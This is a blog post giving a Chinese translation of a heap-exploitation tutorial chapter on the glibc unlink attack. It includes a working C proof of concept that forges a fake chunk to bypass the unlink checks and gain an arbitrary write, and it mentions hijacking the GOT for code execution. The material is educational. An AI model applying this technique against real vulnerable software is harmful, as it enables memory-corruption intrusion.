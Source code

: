```yaml
---
title: Heap Exploitation系列翻译-11 Unlink Exploit
tags: [CTF, pwn, heap]
layout: post
categories: translations
---
```


> 本文是对Dhaval Kapil的[Heap Exploitation](https://heap-exploitation.dhavalkapil.com/)系列教程的译文

这项攻击技术曾十分常用, 然而之后在`unlink`宏里添加的两项安全检查("corrupted size vs. prev_size")和("corrupted double-linked list")在一定程度上减少了这种攻击. 不过我们依旧值得花时间去掌握这项技术. 该攻击技术利用了在bin中移除堆块时`unlink`宏进行的指针操作发生的漏洞

考虑以下示例代码(下载完整版本: [这里](https://heap-exploitation.dhavalkapil.com/assets/files/unlink_exploit.c) )

```c
struct chunk_structure {
  size_t prev_size;
  size_t size;
  struct chunk_structure *fd;
  struct chunk_structure *bk;
  char buf[10];               // padding
};

unsigned long long *chunk1, *chunk2;
struct chunk_structure *fake_chunk, *chunk2_hdr;
char data[20];

// First grab two chunks (non fast)
chunk1 = malloc(0x80);        // Points to 0xa0e010
chunk2 = malloc(0x80);        // Points to 0xa0e0a0

// Assuming attacker has control over chunk1's contents
// Overflow the heap, override chunk2's header

// First forge a fake chunk starting at chunk1
// Need to setup fd and bk pointers to pass the unlink security check
fake_chunk = (struct chunk_structure *)chunk1;
fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

// Next modify the header of chunk2 to pass all security checks
chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);
chunk2_hdr->prev_size = 0x80;  // chunk1's data region size
chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit

// Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
// This results in chunk1 pointer pointing to chunk1 - 3
// i.e. chunk1[3] now contains chunk1 itself.
// We then make chunk1 point to some victim's data
free(chunk2);

chunk1[3] = (unsigned long long)data;

strcpy(data, "Victim's data");

// Overwrite victim's data using chunk1
chunk1[0] = 0x002164656b636168LL;   // hex for "hacked!"

printf("%s\n", data);         // Prints "hacked!"
```

相比其他攻击, 这看上去可能会有些复杂. 首先我们申请了两个大小为`0x80`的堆块 `chunk1`和 `chunk2`以确保两者都在smallbin范围内. 接下来我们假定攻击者以某种方式无界限地控制`chunk1`的内容(比如说可以使用一些不安全的函数比如`strcpy`来读取用户输入). 要注意, 两个堆块在内存里是紧挨着的. 上面展示的代码使用了一个自定义的结构体`chunk_structure`单纯只是为了清楚的展示而已. 在一个攻击情景中, 攻击者可能只是简单地发送一些数据填充了`chunk1`, 这样也是能达到相同效果的

在`chunk1`的`data`域创建了一个新的伪造堆块. `fd`和`bk`指针经过调整以绕过"corrupted double-linked list"安全检查. 攻击者的输入内容溢出到了`chunk2`的头部并设置了对应的`prev_size`和`prev_in_use`位. 这也确保了一旦`chunk2`被释放, 我们的`fake_chunk`都会被认作为'空闲的'并且将进行`unlink`操作. 下面的图标很好地展示了不同内存区域的当前状态:

![Unlink before call to free](https://heap-exploitation.dhavalkapil.com/assets/images/unlink_before_free.png)

务必要弄明白为什么可以通过`P->fd->bk == P` 和 `P->bk->fd == P`的检查. 这会告诉你如何去调整伪堆块的`fd`和`bk`指针

一旦`chunk2`被释放, 它就会作为small bin被处理. 我们回想一下, prev chunks和next chunks会被检查它们是否被释放. 如果其中任意一个堆块被检查到已释放, 它就会因为合并连续的空闲堆块而进行`unlink`操作. `unlink`宏执行以下两个修改指针的指令:

1. 设置 `P->fd->bk` = `P->bk`.
2. 设置 `P->bk->fd` = `P->fd`.

In this case, both `P->fd->bk` and `P->bk->fd` point to the same location so only the second update is noticed. The following diagram shows the effects of the second update just after `chunk2` is freed.

在这种情形下, `P->fd->bk` 和 `P->bk->fd`都指向相同的地方因此我们只需要注意第二次操作即可. 下面的图标展示了在`chunk2`被释放后第二次操作的影响.

![Unlink after call to free](https://heap-exploitation.dhavalkapil.com/assets/images/unlink_after_free.png)

现在, 我们让`chunk1`在它之后(`&chunk-3`)指向了3个地址(16位). 因此, `chunk1[3]`实际上就是`chunk1`. 改变`chunk1[3]`就是改变`chunk1`. 要注意的是, 一个攻击者很有可能获得机会去更新`chunk1`(`这里是chunk1[3]`)位置的数据, 而非`chunk1`本身. 这样我们完成了这次攻击. 在本例中, `chunk1`用于指向变量'data'并且通过改变`chunk1`从而影响到了该变量

早先, 在缺少`unlink`的安全检查的时候, 那两项`unlink`宏的指令常用语显示任意地址写. 通过覆写`.got`段从而导致任意代码执行
